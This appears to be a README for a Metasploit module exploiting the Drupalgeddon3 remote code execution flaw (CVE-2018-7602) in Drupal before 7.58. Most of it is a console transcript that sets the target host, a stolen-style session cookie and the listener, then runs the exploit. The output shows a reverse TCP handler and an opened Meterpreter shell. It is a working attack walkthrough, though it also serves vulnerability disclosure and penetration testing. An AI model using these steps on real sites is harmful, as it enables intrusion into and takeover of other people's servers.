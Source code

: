 # Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code Execution (Metasploit)
Author:
- [SixP4ck3r](https://twitter.com/sixp4ck3r)

Notes:
- CVE-2018-7602 / SA-CORE-2018-004
- A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x.
This potentially allows attackers to exploit multiple attack vectors on a Drupal site
Which could result in the site being compromised.
This vulnerability is related to Drupal core - Highly critical - Remote Code Execution

### Example
<img src='https://i.imgur.com/9qRHfZ7.png'/>


### Output Metasploit
```bash
six@ub:/opt/metasploit-framework$ ./msfconsole 
[-] ***rting the Metasploit Framework console...|
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.0-dev-8164379                   ]
+ -- --=[ 1758 exploits - 1006 auxiliary - 306 post       ]
+ -- --=[ 536 payloads - 41 encoders - 10 nops            ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

msf5 > use unix/webapp/drupal_drupalgeddon3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set RHOST 192.168.1.200
RHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_SESSION SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
DRUPAL_SESSION => SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_NODE 3
DRUPAL_NODE => 3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set LHOST 192.168.1.200
LHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > exploit

[*] Started reverse TCP handler on 192.168.1.200:4444 
[*] Token Form -> u73s2UzA1B056tdlItiAfpeolb5OVwLGEF5EAFH0bJY
[*] Token Form_build_id -> form-FtN_yMsgJI9GlviMbemIkYxgJ97xsUZ7Lg2hOtW1IlI
[*] Sending stage (37775 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.200:4444 -> 192.168.1.200:60156) at 2018-04-29 15:04:33 -0400

meterpreter > 
```
